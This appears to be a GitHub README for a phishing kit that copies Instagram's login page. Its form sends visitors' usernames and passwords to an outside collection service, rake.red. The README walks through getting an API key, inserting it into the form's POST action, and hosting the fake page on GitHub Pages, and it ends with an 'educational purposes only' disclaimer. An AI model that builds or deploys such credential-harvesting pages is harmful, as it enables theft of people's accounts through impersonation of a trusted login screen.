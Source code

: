 # Insta Clone Login Page

This project is a clone of the Instagram login page with a feature that sends the user's username and password to the [rake.red](https://rake.red) website. This is useful for demonstration purposes or testing user authentication with external services.

## Getting Started

### Prerequisites

1. **Create an Account on Rake.red:**
   - Visit [rake.red](https://rake.red) and sign up for an account.
   - Once signed in, create a new project to get your unique API key.

2. **Clone this Repository:**
   ```bash
   git clone https://github.com/yourusername/instaclone-login.git
   cd instaclone-login
   Update the API Key in index.html:
3.**Update the API Key in index.html:**

Open the index.html file in your favorite code editor.
Locate the section where the API key is required.
Replace YOUR_API_KEY_HERE with the API key you obtained from rake.red.
html

<form action="https://rake.red/api/YOUR_API_KEY_HERE" method="POST">
    <!-- Form inputs for username and password -->
</form>

4.**Hosting on GitHub Pages**
Push the Project to GitHub:

Ensure your project is committed and pushed to a GitHub repository.
Enable GitHub Pages:

Go to the repository settings on GitHub.
Scroll down to the "GitHub Pages" section.
Select the branch you want to use (usually main or master) and save.
Access Your Hosted Page:

After enabling GitHub Pages, your InstaClone login page will be available at https://yourusername.github.io/instaclone-login.
Disclaimer
This project is for educational purposes only. Please be aware that using this project for malicious purposes, such as phishing, is illegal and unethical.

